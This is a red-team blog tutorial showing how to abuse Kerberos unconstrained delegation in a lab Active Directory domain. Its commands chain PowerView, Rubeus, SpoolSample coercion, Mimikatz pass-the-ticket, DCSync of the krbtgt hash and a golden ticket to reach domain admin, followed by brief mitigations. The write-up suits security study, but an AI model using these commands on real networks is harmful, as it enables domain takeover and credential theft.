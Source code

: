 ```yaml
---
layout: post
title: "Abusing Kerberos unconstrained delegation and DCSync the Domain."
description: "This post demonstrates how to capture the domain controller’s Ticket-Granting-Ticket (TGT) by coerce a domain controller to authenticate to a computer configured with unconstrained delegation."
thumb_image: "screenshots/krbdelg/thumb.png"
tags: [red_team, active_directory]
---
```


### Introduction.

In the `Active Directory` environment delegation allows an account to impersonate another account to access resources within the network.

There are three known types of delegations allowed with Kerberos:

- Unconstrained delegations.
- Constrained delegations.
- Resource-based constrained delegations.

Unconstrained delegation allows a user or computer with the option "Trust This user/computer for delegation to any service" enabled to impersonate any user authenticated to it and request access to any service.

Today we will be trying to abuse Unconstrained delegation to perform a privilege escalation and become a domain admin.

The following image represents a computer in the Active Directory which is configured for unconstrained delegation:

{% include image.html path="screenshots/krbdelg/1.png" path-detail="screenshots/krbdelg/1.png" alt="Sample image" %}

<br>
<hr>
<br>

### Attack Requirements

- A domain computer with the delegation option "Trust This computer for delegation to any service" enabled.
- Local admin privileges on the delegated computer to dump the TGT tickets. If you compromised the server as a regular user, you would need to escalate to abuse this delegation feature.

<br>
<hr>
<br>

### Tools Used

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [Active Directory Modules](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Rubeus](https://github.com/GhostPack/Rubeus)

<br>
<hr>
<br>

### Identifying The Target.

We are interested with computer objects with the property `TrustedForDelegation` set to `true`:

We can use PowerView to find computers that are configured for Unconstrained Delegation with a syntax :

```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl
```
<br>
{% include image.html path="screenshots/krbdelg/2.png" path-detail="screenshots/krbdelg/2.png" alt="Sample image" %}

<br>
Also using ADModule with the following syntax we can see the same results:

```powershell
 Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
<br>
{% include image.html path="screenshots/krbdelg/3.png" path-detail="screenshots/krbdelg/3.png" alt="Sample image" %}


As we can see we have two computers in the `STRAWHATS.local` domain with unconstrained delegation:

- The computer is named `DC01.strawhats.local`, which is a domain controller, Domain controllers have unconstrained delegation enabled by default.
- The computer named `BLACKBEARD.strawhats.local` computer which is our target, we are good to attack.

<br>
<hr>
<br>

### Exploitation.

In order to exploit unconstrained delegation we need to compromise the system with the delegation enabled, in this post we’ll assume that we already did it.

The idea is to coerce a privileged user to connect to the computer with the delegation enabled. To achieve this we’re going to use the SpoolSample bug to force a domain controller account to connect to us.

First let us set up Rubeus on the computer we compromised to listen for incoming authenticated connections in order to monitor for incoming connections with Rubeus using the following command:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:DC01
```

<br>
{% include image.html path="screenshots/krbdelg/4.png" path-detail="screenshots/krbdelg/4.png" alt="Sample image" %}

Next, using SpoolSample tools, we trigger the printer bug on a domain controller, We are triggering the bug on host `DC01.strawhats.local` and coercing it to authenticate against the host that we control where we are running Rubeus, `BLACKBEARD.strawhats.local`.

```powershell
SpoolSample.exe DC01.strawhats.local BLACKBEARD.strawhats.local
```

where:

- `DC01.strawhats.local` is the domain controller we want to compromise
- `BLACKBEARD.strawhats.local` is the machine with delegation enabled that we control.

{% include image.html path="screenshots/krbdelg/5.png" path-detail="screenshots/krbdelg/5.png" alt="Sample image" %}

Suddenly, we see the authentication come from DC01 along with its ticket granting ticket (TGT) captured by Rubeus.

{% include image.html path="screenshots/krbdelg/6.png" path-detail="screenshots/krbdelg/6.png" alt="Sample image" %}

From a powershell console we can convert the base64 ticket and write the contents to a file with the .kirbi extension using the following command.

```powershell
[IO.File]::WriteAllBytes("C:\tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket String"))
```
<br>
{% include image.html path="screenshots/krbdelg/7.png" path-detail="screenshots/krbdelg/7.png" alt="Sample image" %}

Before we proceed with pass-the-ticket attack and become a domain admin, let's try PSRemoting to the DC01 from BLACKBEARD and check currently available kerberos tickets in a current logon session, just to make sure we currently do not have domain admin rights:

{% include image.html path="screenshots/krbdelg/9.png" path-detail="screenshots/krbdelg/9.png" alt="Sample image" %}

Above picture shows that there are no tickets and PSSession could not be established.

Using Mimikatz we can pass-the-ticket and the current user account will get high privilege rights on the domain controller.

```powershell
mimikatz.exe "kerberos::ptt DC.kirbi"
```

<br>
{% include image.html path="screenshots/krbdelg/8.png" path-detail="screenshots/krbdelg/8.png" alt="Sample image" %}

Then we `DCSync` to dump the `NTLM` hash of the `krbtgt` account.

```powershell
lsadump::dcsync /user:STRAWHATS\krbtgt`
```
<br>
{% include image.html path="screenshots/krbdelg/10.png" path-detail="screenshots/krbdelg/10.png" alt="Sample image" %}

Now let’s forge a golden ticket with Mimikatz for the user STRAWHATS\Administrator:

```powershell
kerberos::golden /user:Administrator /domain:strawhats.local /sid:S-1-5-21-3112608399-2123514497-4142719192-502 /krbtgt:3db0f96a64abc0bc2e4dd779d191d74a /ptt
```
<br>
{% include image.html path="screenshots/krbdelg/11.png" path-detail="screenshots/krbdelg/11.png" alt="Sample image" %}

Now We can try to PSRemote again into the domain controller as the Administrator user :

<br>
{% include image.html path="screenshots/krbdelg/12.png" path-detail="screenshots/krbdelg/12.png" alt="Sample image" %}

As we can see from the above screenshot, the BLACKBEARD computer now contains a krbtgt for STRAWHATS\Administrator, which enables to establish a PSSession to DC01 with an interactive shell with Domain admin privileges.

<br>
<hr>
<br>

### Mitigation.

- Disable kerberos delegation where possible.
- Be cautious of whom you give privilege "Trust This user/computer for delegation to any service".

<br>
<hr>
<br>

##### References.

- [https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)
- [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)
- [https://blog.xpnsec.com/kerberos-attacks-part-1/](https://blog.xpnsec.com/kerberos-attacks-part-1/)
- [https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation](https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation)

